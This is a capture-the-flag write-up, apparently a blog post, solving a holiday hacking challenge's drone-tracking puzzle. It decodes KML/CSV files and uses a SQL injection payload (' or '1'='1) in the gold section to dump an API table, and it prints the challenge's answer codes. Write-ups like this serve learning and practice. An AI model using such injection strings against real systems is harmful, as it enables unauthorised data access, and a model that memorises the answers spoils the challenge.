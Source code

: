 +++
title = 'Drone Path'
date = 2024-11-23T13:18:31+01:00
draft = false
weight = 2
+++

## Objective

> Help the elf defecting from Team Wombley get invaluable, top secret intel to Team Alabaster. Find Chimney Scissorsticks, who is hiding inside the DMZ.

## Solution

### Silver

![Opening screen](/images/act2/act2-drone-path-1.png)

From the hamburger menu I accesses "FileShare" and got this landing page, where I could download a ```fritjolf-Path.kml``` file: 

![Fileshare](/images/act2/act2-drone-path-2.png)

Opening this .kml file in Google Earth, it opens up and shows a phrase: 

![Gumdrop 1](/images/act2/act2-drone-path-3.png)

```
GUMDROP1
```

By looking at these two things I have just discovered, there is something strange going on. Why is it a name in the filename? And could this GUMDROP1 string be a password. Trying my luck using it as login credentials: 

![Logged in](/images/act2/act2-drone-path-4.png)

Snooping around, I found a downloadable CSV file in the profile section:

![Profile section](/images/act2/act2-drone-path-5.png)

By the look of it, it appears to be some an export of KML. Trying to convert it into CSV by using ```https://www.convertcsv.com/csv-to-kml.htm```:

![Converting CSV to KML](/images/act2/act2-drone-path-6.png)

Opening the export up in Google Earth:

![Opening export](/images/act2/act2-drone-path-7.png)

By zooming in I saw structures resembling letters: 

![Landscape letters](/images/act2/act2-drone-path-8.png)

Making notes of each "letter" in Excel I found: 

![Landscape letters](/images/act2/act2-drone-path-9.png)

Found what is most likely a drone name: ```ELF-HAWK```. Went back to the web app and searched for the drone, got this:

![Landscape letters](/images/act2/act2-drone-path-10.png)

Yet another CSV. Converted it to KML by the same way as earlier. Opened it in ```https://kmzview.com/```, appears that the positions may indicate some text of some sorts: 

![Some sort of text](/images/act2/act2-drone-path-11.png)

Tried to find alternative ways of rendering the positions from this list: ```https://gislayer.medium.com/online-web-based-kml-kmz-viewers-1954c33a9a53```. Ended up with this: 

![Found text](/images/act2/act2-drone-path-12.png)

```
DroneDataAnalystExpertMedal
```

Heading back into the web app, I submitted this password from the "Admin Console" endpoint:

![Found text](/images/act2/act2-drone-path-13.png)

### Gold

Chimney Scissorsticks gives us a hint for Gold: 

> But I need you to dig deeper. Make sure you’re checking those file structures carefully, and remember—rumor has it there is some injection flaw that might just give you the upper hand. Keep your eyes sharp!

#### Solution

The hint hints at looking at the the various calls, and for each call I had a look at what could possibly be affected by an injection flaw. I came up with this candidate:

![Found text](/images/act2/act2-drone-path-gold-1.png)

Endpoint takes in drone name as GET parameter:

```
https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones?drone=test
```

By testing using this statement, I provoked an error: ```https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones?drone=ELF-HAWK'```

The error message looks like this:

![500 error](/images/act2/act2-drone-path-gold-2.png)

By this I had found an SQL Injection fault - which I then exploited by:

* Raw: ```https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones?drone=ELF-HAWK' or '1'='1```
* Urlencoded: ```https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones?drone=ELF-HAWK%27%20or%20%271%27=%271```

This enabled me to retrieve this list: 

```json
[
    {
        "name": "ELF-HAWK",
        "quantity": "40",
        "weapons": "Snowball-launcher"
    },
    {
        "name": "Pigeon-Lookalike-v4",
        "quantity": "20",
        "weapons": "Surveillance Camera"
    },
    {
        "name": "FlyingZoomer",
        "quantity": "4",
        "weapons": "Snowball-Dropper"
    },
    {
        "name": "Zapper",
        "quantity": "5",
        "weapons": "CarrotSpike"
    }
]
```

For each of these I passed their name through the endpoint: 

```
https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones?drone=
```

For drone "Pigeon-Lookalike-v4" I got the following hint: 

![Drone comment](/images/act2/act2-drone-path-gold-3.png)

There is something interesting by this hint: 

> I heard a rumor that there is something fishing with some of the files. There was some talk about only TRUE carvers would find secrets and that FALSE ones would never find it.

We've downloaded a bunch of CSV files during this task, so I'll simply look into the files again in reverse - starting with the latest. The words TRUE and FALSE are highlighted, so I suppose these means boolean.

This Python script does the following:

1. Open the "ELF-HAWK-dump.csv" in Pandas, ensuring everyting is loaded as strings
2. Removes all columns having not having text "TRUE" or "FALSE"
3. Removed all rows having just "FALSE" values
4. Replaces text "TRUE" with 1, and "FALSE" with 0
5. Writes the data to a text file

```python
import pandas as pd

df = pd.read_csv("ELF-HAWK-dump.csv", dtype=str)
df = df.loc[:, df.applymap(lambda x: x in ['TRUE', 'FALSE']).all()]
df = df[~df.apply(lambda row: (row == 'FALSE').all(), axis=1)]
df = df.replace({'TRUE': '1', 'FALSE': '0'})

with open("outdata", 'w') as f:
    for _, row in df.iterrows():
        row_values = ''.join(str(value) for value in row)
        f.write(row_values)
```

In order to solve this riddle I took the output and opened it in Cyberchef like so: 

![Cyberchef first try](/images/act2/act2-drone-path-gold-4.png)

I could not find anything interesting - then it dawned on me. Lets pad it in front with "00" (on a whim):

![Cyberchef second try](/images/act2/act2-drone-path-gold-5.png)

The code word is: 

```
EXPERTTURKEYCARVERMEDAL
```

Then submitting the code word:

![Cyberchef first try](/images/act2/act2-drone-path-gold-6.png)